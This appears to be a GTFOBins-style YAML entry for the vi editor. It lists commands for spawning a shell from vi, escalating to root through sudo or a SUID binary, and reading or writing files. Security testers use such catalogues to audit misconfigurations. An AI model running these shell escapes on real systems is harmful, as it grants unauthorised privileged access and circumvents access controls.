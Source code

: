 ```yaml
---
functions:
  execute-interactive:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
  sudo-enabled:
    - code: sudo vi -c ':!/bin/sh'
  suid-enabled:
    - code: ./vi -c ':!/bin/sh -p'
  file-read: 
    - code: |
        vi file_to_read
  file-write: 
    - code: |
        vi file_to_write
        w
---
```

